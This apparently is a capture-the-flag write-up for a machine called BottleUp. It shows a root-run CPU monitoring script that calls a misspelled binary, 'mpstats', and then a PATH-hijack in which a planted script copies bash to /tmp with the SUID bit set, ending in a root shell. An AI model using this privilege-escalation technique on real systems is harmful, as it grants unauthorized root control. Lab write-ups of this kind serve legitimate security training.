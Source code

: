 ```
LSCPU=`which lscpu`
LSCPU=$?
if [ $LSCPU != 0 ]
then
    RESULT=$RESULT" lscpu required to producre acqurate reults"
else
cpus=`lscpu | grep -e "^CPU(s):" | cut -f2 -d: | awk '{print $1}'`
i=0
while [ $i -lt $cpus ]
do
    echo "CPU$i : `mpstats -P ALL | awk -v var=$i '{ if ($3 == var ) print $4 }' `" >> /root/status.log
    let i=$i+1
done
fi

echo -e "
Load Average   : `uptime | awk -F'load average:' '{ print $2 }' | cut -f1 -d,`

Heath Status : `uptime | awk -F'load average:' '{ print $2 }' | cut -f1 -d, | awk '{if ($1 > 2) print "Unhealthy"; else if ($1 > 1) print "Caution"; else print "Normal"}'`
" >> /root/status.log
```

We notice that the script checks the CPU health.

We notice that the script has the binaries without paths and our home directory in the path.

However the only way to hijack one of the binaries is either if the binary isn't installed or doesn't belong to any of the directories in the path.

We notice a typo in one of the binaries `mpstats` instead of `mpstat`.

So we are able to hijack this binary if we create a malicious one in our home directory.

```
hcue@BottleUp:~$ cat mpstats
#!/bin/bash

id > /tmp/test

cp /bin/bash /tmp/bash

chmod u+s /tmp/bash
...
hcue@BottleUp:~$ chmod +x mpstats
```

Now we wait until the service restarts and see that we have obtained root access.

```
hcue@BottleUp:/tmp$ ls -la
total 1192
drwxrwxrwt  8 root root    4096 Nov 20 17:14 .
drwxr-xr-x 19 root root    4096 Nov 20 15:05 ..
drwxrwxrwt  2 root root    4096 Nov 20 15:04 .ICE-unix
drwxrwxrwt  2 root root    4096 Nov 20 15:04 .Test-unix
drwxrwxrwt  2 root root    4096 Nov 20 15:04 .X11-unix
drwxrwxrwt  2 root root    4096 Nov 20 15:04 .XIM-unix
drwxrwxrwt  2 root root    4096 Nov 20 15:04 .font-unix
-rwsr-xr-x  1 root root 1183448 Nov 20 17:14 bash
-rw-r--r--  1 root root      39 Nov 20 17:14 test
drwx------  2 hcue hcue    4096 Nov 20 16:54 tmux-1000
hcue@BottleUp:/tmp$ cat test
uid=0(root) gid=0(root) groups=0(root)
hcue@BottleUp:/tmp$ ./bash -p
bash-5.0# id
```